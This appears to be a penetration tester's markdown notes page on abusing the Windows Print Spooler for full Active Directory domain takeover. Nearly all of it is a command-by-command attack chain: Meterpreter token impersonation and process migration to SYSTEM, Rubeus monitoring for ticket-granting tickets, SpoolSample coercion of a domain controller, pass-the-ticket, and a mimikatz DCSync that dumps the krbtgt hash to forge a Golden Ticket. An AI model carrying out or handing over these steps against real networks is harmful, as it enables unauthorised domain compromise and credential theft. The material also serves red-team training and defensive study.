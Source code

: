 ## Abusing Print Spooler

To validate the presence of the MS-RPRN (Print System Remote Protocol) RPC pipe:

```powershell
dir \\<DC server name>\pipe\spoolss
```

Nb. It may only be possible to get a response from the named pipe when you have already impersonated the "NT AUTHORITY\\SYSTEM" user.

If you can get this response from attempting to query the named pipe then this is potentially a suitable context from which to run `Rubeus.exe` to capture coerced tickets.

### Abusing Print Spooler for local PrivEsc

Writeup pending

### Abusing Print Spooler for full domain pwnage

If you do not immediately get desirable output from probing the named pipe dir, try impersonating the SYSTEM user. From a Meterpreter console running with Administrator privilege:
```
load incognito
```
Verify a SYSTEM token that can be impersonated is available:
```
list_tokens -u
```
Impersonate the SYSTEM users token:
```
impersonate_token "NT AUTHORITY\\SYSTEM"
```
Get the running processes:
```
ps
```
Migrate into an appropriate process running as the SYSTEM user (nb. unsure if this is necessary in _addition_ to impersonating the SYSTEM token but eh doesn't take long to do both):
```
migrate 123
```
Verify we have the SYSTEM users context:
```
getuid
```
Test our access to the named pipe once more to see if our attack may work:
```powershell
dir \\<DC server name>\pipe\spoolss
```

From the same machine, get `Rubeus.exe` up and running. It's function at this stage is to sit and listen for incoming TGTs from the machine account of the target DC:
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap /filteruser:DC03$
```

Once `Rubeus.exe` is up and running we're ready to coerce the DC, the positional arguments to `SpoolSample.exe` are the target server, ie. the DC, and the capture server, ie. the one we're running `Rubeus.exe` on, in that order:
```powershell
.\SpoolSample.exe DC03 WEB05
```

If the attack succeeds a base64 encoded TGT will arrive in the session we have `Rubeus.exe` running in. No time to waste! The TGT is good to be passed by `Rubeus.exe`:
```powershell
.\Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```
With the ticket of the DC machine account in our current user context we can trigger a DC Sync to dump the hash of any user, notably including the `krbtgt` user. This is the service account of the Key Distribution Center (KDC) service that runs on the DCs. It is a root of trust for Kerberos based domains. From `mimikatz.exe`
```
lsadump::dcsync /domain:infinity.com /user:INFINITY\krbtgt
```
From the output of the above grab the LM and NTLM hashes. These will be key to the forgery of a Golden ticket.

